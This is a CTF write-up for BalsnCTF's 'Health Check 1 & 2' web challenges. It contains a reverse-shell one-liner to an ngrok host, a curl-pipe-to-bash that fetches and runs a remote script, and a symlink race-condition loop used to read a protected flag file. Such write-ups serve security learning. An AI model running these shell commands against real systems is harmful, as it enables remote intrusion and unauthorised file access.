 ```yaml
---
layout: single
title: Health Check 1 & 2 - BalsnCTF
excerpt: Want to know whether the challenge is down or it's just your network down? Want to know who to send a message when you want to contact an admin of some challenges? Take a look at our "fastest" Health Check API in the world!
date: 2022-9-05
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: #
categories:
  - ctf
  - web
tags:  
  - BalsnCTF
  - remote command execution
  - race condition
---
```



## Challenge Description
"Want to know whether the challenge is down or it's just your network down? Want to know who to send a message when you want to contact an admin of some challenges? Take a look at our "fastest" Health Check API in the world!"


## Information
Some information about healthcheck1 and healthcheck2, these are 2 seperate challenges where you have to gain access with RCE for healthcheck 1 enumerate the file system and grab the flag. After that healthcheck 2 comes to the surface, so we got a shell and with that into web application directory(`/home/healthcheck/app`) we found 2 python files called `apiserver.py` and `background.py` with source code of the app, analyzing the source code of the `apiserver.py` at `@app.get('/{dir_name}')` route is there a opportunity for a `race contition` attack and after that grab the second flag.


## Health Check 1
![index](https://user-images.githubusercontent.com/45040001/188512190-3470dbe0-f726-4f73-92a1-11b802ffe06f.png)

![docs_dir](https://user-images.githubusercontent.com/45040001/188512230-691bfdc5-8811-4e0b-a180-b15a56e97f28.png)

![docs](https://user-images.githubusercontent.com/45040001/188512252-23eea18f-11a7-4008-b7b0-b85ed03742c8.png)
<br>
"<b>This endpoint is only for admin. do NOT share this link with players</b>!

Upload the health check script to create a new problem. The uploaded file should be a zip file. The zip file should NOT have a top-level folder, you must place an executable (or a script) named run. You may put other fiels as you want. Below is an example output of zipinfo myzip.zip of a valid myzip.zip"
<br>
![admin_only](https://user-images.githubusercontent.com/45040001/188512336-edf35a77-5b7d-4bc4-bdd8-956d5aa938f3.png)

![upload exploit](https://user-images.githubusercontent.com/45040001/188512694-815aa9fe-edc5-4eb4-a3d1-fd1103a1ef8a.png)


```bash
#!/bin/bash

curl http://burpcollaborator.net/
```

![curl](https://user-images.githubusercontent.com/45040001/188512936-18f8d21c-d5a4-4cdd-87f0-6dcdd562b042.png)


![cors](https://user-images.githubusercontent.com/45040001/188512958-8afb1bfb-cba4-43b7-ba6a-3535130004f2.png)

```bash
#!/bin/bash
# shell.sh

bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12771 0>&1
```


```bash
#!/bin/bash
# run executable

curl http://server-to-shell.com/shell.sh|bash
```

![rev_shell](https://user-images.githubusercontent.com/45040001/188512834-833e9ba4-3db1-43de-8a8f-dc7e1ae3cd84.png)
![flag](https://user-images.githubusercontent.com/45040001/188512842-48603fcf-de87-439a-8168-dc3fcd5be75e.png)


## Health Check 2

![examine](https://user-images.githubusercontent.com/45040001/188760193-9a4b878f-9659-4dd7-864d-e0646ab7f53a.png)


```python
@app.get('/{dir_name}')
async def get_status(dir_name: str):
    file = data_path / dir_name / 'status.json'
    if not file.resolve().is_relative_to((data_path / dir_name).resolve()):
        return HTTPException(404, detail='no status')
    try:
        with open(file, 'r') as fp:
            return fp.read()
    except:
        return HTTPException(404, detail='no status')
```

![upload zip_for flag](https://user-images.githubusercontent.com/45040001/188760009-9ed5c627-b8f2-4105-b548-11f59ae5bd6a.png)

```bash
# run executable into flag.zip
while :; do ln -s /home/healthcheck/app/flag2 status.json; rm status.json; echo 'lalal' > status.json; rm status.json; done
```


![run_my_script](https://user-images.githubusercontent.com/45040001/188760071-b6c4a1d1-212c-44d4-ab9a-9a9399777a51.png)

![404](https://user-images.githubusercontent.com/45040001/188760084-ea4bb487-ce74-4944-b0ad-b29b171f238c.png)

![lalala](https://user-images.githubusercontent.com/45040001/188760090-36c82282-f3d3-4ede-9edc-6e5ff54fdc61.png)

![flag](https://user-images.githubusercontent.com/45040001/188760093-e824b6d0-d869-4148-8db6-b443521888da.png)




